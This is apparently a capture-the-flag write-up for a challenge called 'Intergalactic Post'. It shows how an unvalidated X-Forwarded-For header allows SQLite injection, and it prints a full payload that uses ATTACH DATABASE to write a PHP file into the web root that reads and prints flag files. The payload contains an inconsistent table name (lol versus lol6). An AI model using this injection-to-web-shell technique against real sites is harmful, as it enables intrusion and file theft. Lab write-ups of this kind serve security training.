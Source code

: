 # Intergalactic Post
## Recon
The website allows you to subscribe to a newsletter. Two values are stored in a sql database; the email address via input field and the 
ip-address extracted from one of the HTTP Header fields `HTTP_X_FORWARDED_FOR`, `REMOTE_ADDR`, `HTTP_CLIENT_IP`.

The flag to capture is located in the www/ folder with name flag_{random_value}.txt

When looking at the source code, we see that the code is vulnerable to sql-injection. 

The insert sql has the format:
`INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')`

The value of the email address cannot be used for the attack because the email-address
is validated beforehand, but no validation is done for the ip-address.


Therefore we create a malicous http header value for X-FORWARDED-FOR 

## Exploitation
HTTP Header X-FORWARDED-FOR payload:
```
ip','some@email.com'); 
ATTACH DATABASE '/www/static/index.php' AS lol;CREATE TABLE lol.pwn (dataz text); 
INSERT INTO lol6.pwn (dataz) VALUES ("<?php if ($dh = opendir('/')){ while (($file = readdir($dh)) !== false) 
{ if(stripos($file,'flag')>0) { print($file); print(readfile('/'.$file)); } } closedir($dh);} ?> ss ");--
```

1. First, we finish off the actual insert sql with `ip','some@email.com');`
2. Then we create a new database under `/www/static/index.php`
3. In this database we create a new table `lol.pwn` (name doesn't matter)
4. In the new table we store some php code which reads all files in the directory www/ and if the file starts with `flag` we print its content.
5. we discard the initial sql command with `--`

After sending the SQL injection payload, the value of the flag is printed through the "new database" when accessing `/static/index.php`.

## Links
[sql injection payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database)

